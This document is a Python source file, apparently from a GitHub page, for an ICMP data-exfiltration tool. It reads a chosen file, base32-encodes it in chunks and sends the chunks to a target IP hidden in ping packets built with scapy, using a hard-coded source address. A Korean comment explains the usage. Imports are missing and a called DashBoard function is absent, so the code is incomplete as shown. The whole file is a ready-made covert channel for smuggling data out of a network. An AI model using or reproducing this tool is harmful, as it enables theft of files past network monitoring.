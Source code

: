 ```python

class colors:
    BLACK = '\033[30m'
    RED = '\033[31m'
    GREEN = '\033[32m'
    YELLOW = '\033[33m'
    BLUE = '\033[34m'
    MAGENTA = '\033[35m'
    CYAN = '\033[36m'
    WHITE = '\033[37m'
    UNDERLINE = '\033[4m'
    RESET = '\033[0m'
        
        
class icmp_data_exfiltration(object):
    def __init__(self,target_host,send_file):
        self.target_host = target_host
        self.send_file = send_file
    
    def Read_File(self):
        with open(self.send_file,'rb') as f:
            Binary_DATA = f.read()
            return Binary_DATA
    
    def B32_Encoding(self,data):
        B32_DATA = base64.b32encode(data)
        return B32_DATA
    
    def Send_Data(self):
        Binary_DATA = self.Read_File()
        for i in range(0,int(len(Binary_DATA)/900)+1):
            print(colors.YELLOW+"[*] Send Ping to {0}".format(self.target_host+colors.RESET))
            SDATA= self.B32_Encoding(Binary_DATA[900*i:900*(i+1)])
            self.Send_Ping(SDATA,i)
        
    def Send_Ping(self,Send_DATA,Seq):
        ping = IP(src="192.168.0.5", dst=self.target_host, proto="icmp")/ICMP(seq=Seq)/(Send_DATA)
        send(ping)
            


if __name__ == "__main__":	        
    parser = argparse.ArgumentParser(description='Send IP, Send File')
    parser.add_argument('--dst-ip',required=True, help="destination IP")
    parser.add_argument('--file', required=True, help="Load File")
    args = parser.parse_args()
    
    DashBoard(args.dst_ip,args.file)
    ICMP_TEST = icmp_data_exfiltration(target_host=args.dst_ip,send_file=args.file)
    ICMP_TEST.Send_Data()
    print(colors.RED+"[*] Send Complete"+colors.RESET)
    
    # 사용방법 python3 scapy_client.py --dst-ip [타켓 IP] --file [전송 파일]
```
